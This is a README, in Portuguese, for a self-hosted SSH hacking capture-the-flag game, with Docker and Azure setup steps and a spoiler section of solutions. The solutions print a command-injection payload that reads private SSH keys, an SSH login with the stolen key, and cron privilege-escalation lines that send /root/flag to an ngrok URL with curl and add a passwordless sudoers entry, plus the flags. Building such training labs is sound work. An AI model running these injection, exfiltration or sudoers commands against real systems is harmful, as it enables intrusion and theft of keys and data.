 # ssh-game
Repositorio com objetivo de armazenar desafio de hacking relacionado a SSH

## nivel 1
Neste nível, o objetivo é que as pessoas possam navegar em uma interface que se pareça com um roteador.
Até encontrarem uma ferramenta de ping, que utiliza  command line para executar o teste.
Através disto, serão desafiadas a encontrar as chaves de conexão SSH do roteador, seguindo para o desafio nivel 2.
Terá uma flag no arquivo id_rsa, o mais importante para este momento.

## nivel 2
Este nível, é quase uma extensão, em termos de dificuldade, do nível 1.
A pessoa que obtiver as chaves, deverá trazê-las para sua máquina, modificar o nível de permissionamento deste (caso exista, se tratando de windows, isso não faz a menor diferença) e, depois, utilizar para conectar-se via SSH ao pseudo-roteador.
Após os passos descritos acima, é necessário montar o ambiente necessário para conexão via SSH, se for Windows, basta utilizar o Putty, se Linux, já existirá o ssh client nativo.
Ao obter a conexão, será exibido um BANNER de login com algumas instruções e a próxima flag.

## nivel 3
Este nível, é o mais difícil e aqui está como finalização, após este o comprometimento da máquina se dá por completo.
A pessoa que estiver jogando, será convidada a ler o conteúdo do arquivo /root/flag.
Para isso, será necessário realizar um privilege escalation através de uma tarefa cron.
Com isso, será demonstrado que, é possível ler uma tabela cron e saber se existem scripts desprotegidos e sendo executados como root.

## O que preciso instalar?
  * Docker
    Estes desafios estão FORTEMENTE acoplados a [Docker](https://docs.docker.com/get-docker/) e [Docker Compose](https://docs.docker.com/compose/install/). 
    O desafio 2 considera que existe Docker localmente para que possa iniciar sessões com experiência de SSH mas conectando-se ao tty e stdin dos containers executados.
  * Nodejs 12.x (via NVM ([linux](https://github.com/nvm-sh/nvm)/[windows](https://github.com/coreybutler/nvm-windows/releases)) ou [download direto](https://nodejs.org/en/))
  * SSH client (para Windows, [putty](https://www.putty.org/))
  * [AZ Cli](https://docs.microsoft.com/en-us/cli/azure/install-azure-cli)
  * Terraform (caso queira publicar a infra no Azure via AzureRM)

## Já instalei docker e docker-compose, o que faço agora?
Depois de ter instalado o que era necessário, basta rodar:
```bash
docker-compose build
docker-compose up
```

No caso de estar em ambiente Windows, o sock do docker é diferente, utilize:
```powershell
docker-compose -f docker-compose.windows.yml build
docker-compose -f docker-compose.windows.yml up
```

Os desafios estarão dispoíveis conforme descrito abaixo:
* nivel 1 - [http://localhost:4444](http://localhost:4444)
* nivel 2 - tcp://localhost:2222
* nivel 3 - usa a mesma conexão do nível 2

## Publicando na Azure
Após instalar `AZ Cli` e `terraform` de acordo com as recomendações para o seu sistema operacional, é necessário iniciar algumas etapas:
1. `az login` (para logar em sua conta, basta seguir o passo a passo ao abrir o navegador)
2. `az account show` (para verificar se está utilizando a subscription correta, para trocar veja este [link](https://docs.microsoft.com/en-us/cli/azure/account?view=azure-cli-latest#az_account_set))
3. Na pasta do terraform, `terraform init` (para baixar o provider do Azure, azurerm)
4. `terraform apply` (para que o terraform conecte no azure e crie o plano de provisionamento)
5. Existem duas variáveis para orientar o terraform a provisionar o ambiente na região correta da Azure e com o prefixo adequado, por padrão, tenho utilizado `var.location=brazilsouth` e `var.prefix=ssh-game` mas não são valores obrigatórios, sinta-se livre para mudar
6. Se estiver de acordo com o plano e a subscription usada, responda com `yes` ao prompt do `terraform`
7. Ao finalizar o provisionamento, o Public IP via `output`, do terraform, será exibido no terminal
8. Por enquanto, a publicação está sendo feita através de um simples git clone do meu repositório, ainda privado.
9. Quando este repositório virar público, não será mais necessário utilizar SSH para dar clone, serão removidas sessões de upload de chave SSH privada e alterado o clone para HTTPS

TLDR para o terraform (ainda precisa de login no `AZ Cli` 
```bash
terraform apply -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para todos os recursos estarem provisionados e disponíveis ao uso.

## Não quero mais cobrança, quero destruir tudo isso ai lá na Azure 
```bash
terraform destroy -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para destruir todos os recursos.


## Informações complementares
Para rodar estes desafios, será necessário ter ngrok instalado e, após isto, remapear, no `docker-compose.yml`, portas de nível root (80 e 22).
Portas altas foram usadas para não ser necessário qualquer privilégio administrativo enquanto desenvolvimento.
A experiência completa se baseia em parecer com um roteador de verdade, portanto, é necessário utilizar portas que sejam também usadas por tal.


## ** SOLUÇÕES - ESTE ESPAÇO É PARA SPOILERS DO GAME, NÃO ABRA CASO QUEIRA JOGAR DE VERDADE **
<details><summary>TUDO BEM, ME MOSTRA LOGO COMO RESOLVE ESSA COISA TODA!</summary>
<p>

### Nivel 1
Para conseguir acesso às chaves, utilize comandos shell com `ls -la` e `cat` nos arquivos da pasta `.ssh` 
```bash
google.com && ls -la .ssh  && cat .ssh/id_rsa.pub && cat .ssh/id_rsa
```

FLAG: L3CTF{y0u_sh311_n0t_p4ss} 

### Nivel 2
Para conseguir uma flag, basta conectar-se via SSH na máquina.
A ideia é que a pessoa consiga entender o nome do usuário para logar (via chave pública, id_rsa.pub, no comentário do arquivo) e baixe o conteúdo da chave privada (id_rsa)
O IP já terá sido fornecido para as pessoas jogarem.
Abaixo, a chave privada foi criada em /tmp/id_rsa (copiar e colar conteúdo do nivel 1)
```bash
ssh -i /tmp/id_rsa -o StrictHostKeyChecking=no -p 22 temp_user@191.234.178.199
```

FLAG: L3CTF{y34h_y34h_g0t_th3_k3ys_n0t_th3_ch33s3_th3_k3ys}

### Nivel 3
Uma das possíveis soluções é, criar um arquivo `log.sh`, na home do temp_user para que faça um :
- cat /root/flag > /home/temp_user/flag.txt && chmod 777 /home/temp_user/flag.txt 
- curl -X POST --data-binary @/root/flag [URL_DO_NGROK] 
- echo "temp_user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
Qualquer uma destas soluções habilita a leitura do arquivo /root/flag
O arquivo log.sh pode ser descoberto através de um cat em /etc/crontab

FLAG: L3CTF{y34h_y34h_g0t_th3_k3ys_n0t_th3_ch33s3_th3_k3ys}

</p>
</details>

